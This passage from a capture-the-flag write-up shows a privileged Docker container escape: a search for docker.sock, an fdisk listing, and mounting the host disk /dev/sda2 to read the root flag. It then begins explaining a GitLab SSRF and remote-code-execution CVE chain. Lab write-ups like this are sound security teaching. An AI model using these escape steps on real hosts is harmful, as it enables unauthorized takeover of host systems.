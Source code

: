 First, let us check if there are any docker sockets that are mounted in this container that can allow us to escape from the docker container. Unfortunately, there are no docker sockets that are mounted in this container.

```
root@gitlab:/tmp# find / -name docker.sock 2>/dev/null
find / -name docker.sock 2>/dev/null
root@gitlab:/tmp# 
```

Previously, we were able to know that the docker container is running with the ```--privileged``` flag. This means that the containers will have full access to all devices and lack restrictions from seccomp, AppArmor, and Linux capabilities.

With that knowledge, we will check the privileges on the host drive using ```fdisk -l```. From the output, we can see that /dev/sda2 is a Linux filesystem. This means that we can create a directory and mount /dev/sda2 onto the created directory.

```
Device        Start      End  Sectors Size Type
/dev/sda1      2048     4095     2048   1M BIOS boot
/dev/sda2      4096 37746687 37742592  18G Linux filesystem
/dev/sda3  37746688 41940991  4194304   2G Linux swap
```

### Obtaining root flag

Now all we have to do is to mount /dev/sda2 into /tmp/ready directory.

```
root@gitlab:/# mkdir -p /root/ready
mkdir -p /root/ready
root@gitlab:/# mount /dev/sda2 /root/ready
mount /dev/sda2 /root/ready
```

Finally, we can obtain the root flag

```
root@gitlab:/# cd /root/ready
cd /root/ready
root@gitlab:~/ready# cat root/root.txt 
cat root/root.txt
<Redacted root flag>
```

## Post-Exploitation
### Gitlab Authenticated Rce
The exploit that was used to do a remote code execution on Gitlab 11.4.7 was actually a combination of 2 CVEs, CVE-2018-19585 and CVE-2018-19571

Firstly, let us talk about CVE-2018-19571. For this CVE, it is a SSRF vulnerability in the webhooks. Even though there are SSRF protection in place which prevents IPv4 addresses from being used to exploit any SSRF, these protection can be bypassed by special IPv4 addresses which have IPv4 addresses embedded inside.
